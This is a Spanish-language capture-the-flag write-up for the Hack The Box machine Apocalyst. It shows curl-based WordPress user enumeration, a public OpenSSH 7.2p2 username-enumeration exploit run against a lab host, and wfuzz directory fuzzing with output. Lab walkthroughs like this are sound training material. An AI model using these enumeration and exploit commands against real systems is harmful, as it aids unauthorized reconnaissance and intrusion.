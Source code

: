 Revisamos si es posible realizar una enumeración de usuarios de wordpress con la siguiente petición

> curl -s -X GET "http://apocalyst.htb/wp-json/wp/v2/users/"

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /wp-json/wp/v2/users/ was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at apocalyst.htb Port 80</address>
</body></html>
```

Por otro lado con **searchexploit** vemos que existe un exploit para la versiön de *OpenSSH 7.2p2* que nos permite validar tanto que el usuario *root* y el usuario *falaraki* existen si unusuario existe:

> searchsploit  -m linux/remote/45939.py
>
> mv 45939.py exploits/ssh_enumeration.py

> python2 exploits/ssh_enumeration.py 10.10.10.46 root 2>/dev/null

```console
[+] root is a valid username
```

> python2 exploits/ssh_enumeration.py 10.10.10.46 falaraki 2>/dev/null

```console
[+] falaraki is a valid username
```

A continuación se realiza un fuzzeado al dominio *http://apocalyst.htb* de la siguiente manera:

[Parámetros de wfuzz]

* -c: opcion colorized, para que salga con colores
* -L: para que continue y redirija las redirecciones 3XX
* --hh=: para ocultar los resultados que en la columna *Char* tengan 150 Char (Caracteres)
* --hc=: para ocultar los codigos 404
* -t: para decir cuantos trends se habilitaran para hacer la busqueda
* -w: para determinar el diccionario que se usará

> wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ

```console
...
000000340:   200        13 L     17 W       157 Ch      "post"                                                                                                                      
000000341:   200        13 L     17 W       157 Ch      "text"                                                                                                                      
000000431:   200        13 L     17 W       157 Ch      "start"                                                                                                                     
000000379:   200        13 L     17 W       157 Ch      "book"                                                                                                                      
000000394:   200        13 L     17 W       157 Ch      "art"                                                                                                                       
000000479:   200        13 L     17 W       157 Ch      "personal"                                                                                                                  
000000465:   200        13 L     17 W       157 Ch      "pictures"                                                                                                                  
000000444:   200        13 L     17 W       157 Ch      "icon"                                                                                                                      
...
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>